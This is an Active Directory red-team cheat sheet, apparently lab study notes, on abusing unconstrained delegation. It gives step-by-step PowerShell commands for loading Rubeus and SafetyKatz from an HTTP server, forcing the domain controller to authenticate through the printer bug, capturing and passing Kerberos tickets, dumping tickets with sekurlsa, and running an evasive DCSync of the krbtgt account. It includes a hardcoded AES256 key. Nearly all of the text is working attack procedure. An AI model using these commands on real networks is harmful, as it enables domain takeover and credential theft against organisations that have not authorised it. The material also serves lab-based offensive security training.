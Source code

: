 ### Unconstrained Delegation Coercion
Coarse/Force machine accounts to connect to a machine and capture their TGT

Use Rubeus on App server (`dcorp-appsrv`) to capture TGT of DC machine account
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args monitor /targetuser:DCORP-DC$ /interval:5 /nowrap
```

Abuse printer bug to force the DC to connect to the App server
```powershell
Loader.exe -path .\MS-RPRN.exe -args \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
```

Copy the base64 encoded TGT, remove extra spaces (if any) and use it on your attacking host
```powershell
.\Loader.exe -path .\Rubeus.exe -args ptt /ticket:<base64>
```

Perform DCsync thats OPSEC safe because it's the machine account
```powershell
.\Loader.exe -path .\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```

```powershell
.\Loader.exe -path .\Rubeus.exe -args asktgt /user:appadmin /aes256:68f08715061e4d0790e71b1245bf20b023d08822d2df85bff50a0e8136ffe4cb /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```


---
### Abusing Unconstrained Delegation
Discover computers with unconstrained delegation (PowerView + AD module)
```powershell
Get-DomainComputer -UnConstrained

Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

Compromise the server(s) where Unconstrained delegation is enabled.

Wait for a domain admin to connect to a service on `appsrv` then dump all of the tickets
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args sekurlsa::tickets /export 
```

Reuse the DA token with SafetyKatz
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args kerberos::ptt C:\Users\appadmin\Documents\user1\[0;2ceb8b3]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi
```

Copy the base64 encoded TGT, remove extra spaces (if any) and use it on your attacking host
```powershell
.\Loader.exe -path .\Rubeus.exe -args ptt /ticket:<base64>
```

Perform DCsync thats OPSEC safe because it's the machine account
```powershell
.\Loader.exe -path .\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```
